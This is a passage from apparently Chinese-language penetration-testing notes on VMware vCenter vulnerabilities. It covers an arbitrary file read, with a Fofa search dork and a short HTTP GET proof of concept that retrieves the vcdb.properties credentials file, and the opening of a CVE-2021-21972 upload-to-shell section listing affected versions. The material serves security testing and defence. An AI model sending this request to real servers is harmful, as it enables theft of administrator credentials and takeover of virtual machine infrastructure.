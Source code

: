 Nuclei 相关模板：

-   `/nuclei-templates/technologies/vmware/vmware-detect.yaml`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205061717231.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205061717231.png-water_print")

### [](#22-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96)2.2 任意文件读取

影响版本：`Vmware vCenter Server <= 6.5.0`

Fofa Dork：`title="ID_VC_Welcome"`

VMware vCenter 存在任意文件读取漏洞，可读取 vCenter 配置文件获得管理帐号密码进而控制 vCenter 平台及其管理的虚拟机集群。

由于 EAM 用户运行该存在漏洞的服务（非域用户），因此不存在 NTLM Relay 等中继攻击风险。

由于不同的系统版本，数据库配置文件（`vcdb.properties`）存放位置不同，根据[官方文档](https://kb.vmware.com/s/article/7960893?lang=zh_cn)，大体可以分为：

-   对于 vCenter Server 5.5 及更低版本：
    -   Windows 2008 - `C:\ProgramData\VMware\VMware VirtualCenter`
    -   其他 Windows 版本 - `C:\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\`
-   对于 vCenter Server 6.0、6.5、6.7：
    -   `C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx`

POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>GET /eam/vib?id={{path}}\vcdb.properties HTTP/1.1<br>Host: {{Hostname}}<br>``` |

nuclei 中对应的 poc：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi.yaml`
-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi-linux.yaml`

### [](#23-cve-2021-21972)2.3 CVE-2021-21972

#### [](#231-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.3.1 漏洞利用

默认启用的 vROps 插件（com.vmware.vropspluginui.mvc）ServicesController 类的 uploadova 接口存在未授权访问，可利用路径穿越将文件解压至特定目录实现 getshell。

影响版本：

-   `7.0 <= vCenter Server < 7.0 U1c`
-   `6.7 <= vCenter Server < 6.7 U3l`
-   `6.5 1e <= vCenter Server < 6.5 U3n`
-   `4.x <= Cloud Foundation (vCenter Server) < 4.2`
-   `3.x <= Cloud Foundation (vCenter Server) < 3.10.1.2`
